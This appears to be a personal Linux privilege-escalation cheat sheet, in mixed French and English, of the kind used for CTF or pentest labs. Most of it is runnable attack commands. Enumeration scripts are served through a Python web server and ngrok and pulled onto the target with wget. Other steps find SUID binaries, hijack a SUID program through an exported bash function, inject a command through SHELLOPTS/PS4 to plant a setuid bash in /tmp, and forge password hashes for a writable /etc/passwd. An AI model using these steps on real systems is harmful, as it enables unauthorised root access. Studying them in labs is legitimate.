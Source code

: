 
### Scripts : 
LinEnum -> comme LinPeas
Enumerate privEsc factors
linux-exploit-suggester.sh

### Mettre LinEnum sur la machine cible :
	- python3 -m http.server 8000 		-> Ouvre une serveur web python en local
	- ngrok http 8000			-> Port forwarding
	- wget https://ngrok.io:port/linEnum.sh		-> copie le fichier sur la machine vulnérable
		

### A la main :  
### ABUSING SUID FILES :  
```bash
$ find / -perm -u=s -type f 2>/dev/null
```
ou
```bash
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
then search suspect SUID in GTFOBINS


### KNOWN EXPLOIT : 
looking for the exploit in exploit-db.com or google ...


### ABUSING SHELL FEATURES : 
context : The  executable is identical to /usr/local/bin/suid-env  
except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.  
```bash
$ /bin/bash --version -> verify the version is under 4.2-048
```
```bash
$ function /usr/sbin/service { /bin/bash -p; }
$ export -f /usr/sbin/service
$ /usr/local/bin/suid-env2
```
### ABUSING SHELL FEATURE #2
(will not work on bash version 4.4 and above)  
(vuln with debugging bash enabled)  
```bash
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env
$ /tmp/rootbash -p
```


### WRITEABLE /ETC/PASSWD
modifier le password du root / creer un nouvel account avec des perms root
- create a new password hash : 
```bash
$ openssl passwd -1 -salt [salt] [password]
```
ou
```bash
ou juste : $ openssl passwd [newpassword]
```
